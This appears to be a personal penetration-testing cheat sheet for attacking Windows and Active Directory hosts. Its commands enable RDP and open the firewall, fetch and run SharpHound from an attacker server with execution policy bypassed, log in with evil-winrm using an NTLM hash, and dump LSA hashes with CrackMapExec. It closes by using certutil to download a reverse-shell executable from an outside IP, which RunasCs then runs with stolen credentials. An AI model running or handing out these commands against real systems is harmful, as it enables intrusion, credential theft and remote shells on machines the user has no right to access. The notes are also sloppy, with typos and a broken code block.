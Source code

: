 Windows: 

### open firewall
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Bloodhound 

```
.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
```

EVIL-WinRM:

once you login with evil-winrm 

```bash
evil-winrm -i 192.168.173.165 -u 'svc_apache' -H 4FC1682833B24CF2225248D67DF7E618 -e "<kali-path>"

$Evil-WinRM PS C:\> Invoke-Binary

$Evil-WinRM PS C:\> Invoke-Binary <kali-Path> run <paramter> 
```

This will help to connect **`metasploit`** this is userfull

https://github.com/tedchen0001/OSCP-Notes/blob/master/AD.md

### Crackmapexec 

# Crackmapexec
```
crackmapexec smb <target> -u '' -p ''
crackmapexec smb <target> -u '' -p '' --users
crackmapexec smb 192.168.1.0/24 
crackmapexec smb target.txt
crackmapexec smb target.txt -u <usernmae> -p <password>

#extract password policy 
crackmapexec smb target.txt -u <usernmae> -p <password> --pass-pol

#enumarte shares
crackmapexec smb target.txt -u <usernmae> -p <password> --shares

#check for loggedon users 
crackmapexec smb target.txt -u <usernmae> -p <password> --loggedon-users

#extract the NTLM hashes 
crackmapexec smb target.txt -u <usernmae> -p <password>  --lsa

#using hash (. dot means local) 
crackmapexec smb target.txt -u Administrator -H <hash> -d .
```
## Runascs 
If creds are found and already logged into the machine then use this command to login as that user. 

```bash
PS C:\tools> certutil.exe -urlcache -split -f "http://192.168.45.184/rshell.exe" rshell.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
PS C:\tools> .\RunasCs.exe svc_mssql trustno1 "cmd /c c:\tools\rshell.exe"
````
